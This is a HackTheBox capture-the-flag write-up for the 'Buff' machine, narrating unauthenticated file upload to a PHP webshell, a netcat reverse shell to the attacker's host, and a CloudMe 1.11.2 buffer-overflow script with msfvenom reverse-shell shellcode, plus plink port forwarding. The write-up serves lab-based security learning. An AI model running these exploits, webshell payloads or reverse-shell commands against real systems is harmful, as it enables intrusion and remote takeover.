


# Buff

Author: Ewaël

**Buff** is an easy HackTheBox box by egotisticalSW.

`nmap -sC -sV -oN nmap 10.10.10.198 -v -A` shows port 8080 is open. Let's check this.



The package page displays `mrb3n's Bro Hut- Packages` so `mrb3n` must be the user. This could be useful later. Then I find the site runs under Gym Management Software on the contact page:



Searching for a known exploit I find one:

```
Gym Management System 1.0 - Unauthenticated Remote Code Execution | php/webapps/48506.py
```

I copy the script, I rename it to `exploit.py` and I take a look at the explanations:

```python
# Exploit Details:
#   1. Access the '/upload.php' page, as it does not check for an authenticated user session.
#   2. Set the 'id' parameter of the GET request to the desired file name for the uploaded PHP file.
#     - `upload.php?id=kamehameha`
#     /upload.php:
#        4 $user = $_GET['id'];
#       34       move_uploaded_file($_FILES["file"]["tmp_name"],
#       35       "upload/". $user.".".$ext);
#   3. Bypass the extension whitelist by adding a double extension, with the last one as an acceptable extension (png).
#     /upload.php:
#        5 $allowedExts = array("jpg", "jpeg", "gif", "png","JPG");
#        6 $extension = @end(explode(".", $_FILES["file"]["name"]));
#       14 && in_array($extension, $allowedExts))
#   4. Bypass the file type check by modifying the 'Content-Type' of the 'file' parameter to 'image/png' in the POST request, and set the 'pupload' paramter to 'upload'.
#        7 if(isset($_POST['pupload'])){
#        8 if ((($_FILES["file"]["type"] == "image/gif")
#       11 || ($_FILES["file"]["type"] == "image/png")
#   5. In the body of the 'file' parameter of the POST request, insert the malicious PHP code:
#       <?php echo shell_exec($_GET["telepathy"]); ?>
#   6. The Web Application will rename the file to have the extension with the second item in an array created from the file name; seperated by the '.' character.
#       30           $pic=$_FILES["file"]["name"];
#       31             $conv=explode(".",$pic);
#       32             $ext=$conv['1'];
#   - Our uploaded file name was 'kaio-ken.php.png'. Therefor $conv['0']='kaio-ken'; $conv['1']='php'; $conv['2']='png';
#   7. Communicate with the webshell at '/upload.php?id=kamehameha' using GET Requests with the telepathy parameter.
```

`python2 exploit.py http://10.10.10.198:8080/` successfully opens a webshell as `shaun`, but now I need to have a working reverse shell in order to efficiently exploit the target.

First I download netcat for Windows here: [https://github.com/int0x33/nc.exe](https://github.com/int0x33/nc.exe). Then I upload it to the target via curl and a python local server. Then I just start my listener on 4444 and uses `nc.exe 10.10.14.4 4444 -e cmd.exe` from the webshell. That's it, I have the user flag:

`3d3b855d6ebf98baf469e5a26ccff8e8`

Let's hunt the root flag now. I quickly find `passwords.txt` in `C:\xampp`:

```
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ]

3) Mercury (not in the USB & lite version):

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser
   Password: wampp

4) WEBDAV:

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf

   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so

   Please do not forget to refresh the WEBDAV authentification (users and passwords).
```

This seemed interesting to me at first because I never saw this before, but I understand after some googling that the solution is somewhere else. I find `CloudMe_1112.exe` in `C:\Users\shaun\Downloads`. What a surprise, there is a known vulnerability about this specific version:

```
CloudMe 1.11.2 - Buffer Overflow (PoC) | windows/remote/48389.py
```

Let's rename it to `cloudme_exploit.py` and change the shellcode with `msfvenom -a x86 -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.15 1234 -e cmd.exe' -b '\x00\x0A\x0D' -f python`

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.15 1234 -e cmd.exe' -b '\x00\x0A\x0D' -f python
buf =  b""
buf += b"\xbf\xf5\x4b\xe3\x92\xdd\xc3\xd9\x74\x24\xf4\x5b\x2b"
buf += b"\xc9\xb1\x3e\x31\x7b\x14\x03\x7b\x14\x83\xc3\x04\x17"
buf += b"\xbe\x1f\x7a\x55\x41\xe0\x7b\x39\xcb\x05\x4a\x79\xaf"
buf += b"\x4e\xfd\x49\xbb\x03\xf2\x22\xe9\xb7\x81\x46\x26\xb7"
buf += b"\x22\xec\x10\xf6\xb3\x5c\x60\x99\x37\x9e\xb5\x79\x09"
buf += b"\x51\xc8\x78\x4e\x8f\x21\x28\x07\xc4\x94\xdd\x2c\x90"
buf += b"\x24\x55\x7e\x35\x2d\x8a\x37\x34\x1c\x1d\x43\x6f\xbe"
buf += b"\x9f\x80\x04\xf7\x87\xc5\x20\x41\x33\x3d\xdf\x50\x95"
buf += b"\x0f\x20\xfe\xd8\xbf\xd3\xfe\x1d\x07\x0b\x75\x54\x7b"
buf += b"\xb6\x8e\xa3\x01\x6c\x1a\x30\xa1\xe7\xbc\x9c\x53\x24"
buf += b"\x5a\x56\x5f\x81\x28\x30\x7c\x14\xfc\x4a\x78\x9d\x03"
buf += b"\x9d\x08\xe5\x27\x39\x50\xbe\x46\x18\x3c\x11\x76\x7a"
buf += b"\x9f\xce\xd2\xf0\x32\x1b\x6f\x5b\x59\xda\xfd\xe1\x2f"
buf += b"\xdc\xfd\xe9\x1f\xb4\xcc\x62\xf0\xc3\xd0\xa0\xb4\x3b"
buf += b"\x9b\xe9\x9d\xd3\x42\x78\x9c\xbe\x74\x56\xe3\xc6\xf6"
buf += b"\x53\x9c\x3d\xe6\x11\x99\x7a\xa0\xca\xd3\x13\x45\xed"
buf += b"\x40\x14\x4c\xae\x5c\xb6\x17\x50\xcc\x36\x98\xce\x66"
buf += b"\xc2\x3c\x80\x15\x59\xe1\x39\xa3\xf0\x45\xb3\x23\x66"
buf += b"\x19\x5a\xa0\x2a\x8b\xff\x06\xb7\x2b\x65\x77\x06\xfc"
buf += b"\x4b\x46\x58\xd2\xa2\x9c\xb6\x1b\xf0\xfc\xf7\x69\xc9"
buf += b"\xc8\xd7\xa0\x48\x11\x74\xd6\xf6\x7f\x1f\x50\x92\x7f"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + buf))

payload = padding1 + EIP + NOPS + buf + overrun

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(payload)
except Exception as e:
	print(sys.exc_value)
```

Let's upload the script to the the target, for example using curl: `curl -O http://10.10.14.15:5555/cloudme_exploit.py`. But here is the problem, Python is not installed on the machine. I have to compile the script into an executable file to be able to use it.

I use `pyinstaller` on a Windows VM for this: `pyinstaller cloudme_exploit.py --onefile --name cloudme_exploit.exe`. Now that I can execute the exploit, I realize that it does not work because I must portforward my ip to the local 8888 port.

I've already done this before using `plink`, let's use it again following [https://medium.com/@informationsecurity/remote-ssh-tunneling-with-plink-exe-7831072b3d7d](https://medium.com/@informationsecurity/remote-ssh-tunneling-with-plink-exe-7831072b3d7d)

I download the 64-bit version and upload it to the target. I start ssh on host with `sudo service ssh start`, then I use `plink.exe -ssh -l kali -pw kali -R 10.10.14.15:8888:127.0.0.1:8888 10.10.14.15`, `kali:kali` being the default user:password. Let's launch the exploit now.

On host, I set up a listener on 1234 with `nc -lvnp 1234`. On target, I start the vulnerable `C:\Users\shaun\Downloads\CloudMe_1112.exe` program. I can now start the exploit: `C:\xampp\htdocs\gym\upload\cloudme_exploit.exe`.

```
C:\xampp\htdocs\gym\upload>C:\xampp\htdocs\gym\upload\cloudme_exploit.exe
C:\xampp\htdocs\gym\upload\cloudme_exploit.exe
Traceback (most recent call last):
  File "cloudme_exploit.py", line 50, in <module>
ConnectionRefusedError: [WinError 10061] No connection could be made because the target machine actively refused it

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "cloudme_exploit.py", line 53, in <module>
AttributeError: module 'sys' has no attribute 'exc_value'
[7764] Failed to execute script cloudme_exploit
```

Meh. An error occured during the target-host connection. I just start it again and it works nicely this time... But I still do not have any sign of a connection on my listener. The reason is that I have to set up the listener as `kali` and not as `root` because the port forwarding is using the `kali` user.

Let's `su kali` and `nc -lvnp 1234`, and do it again. Here is my root flag:

`0ce38ab812e1fb6e9845290c2db27af6`
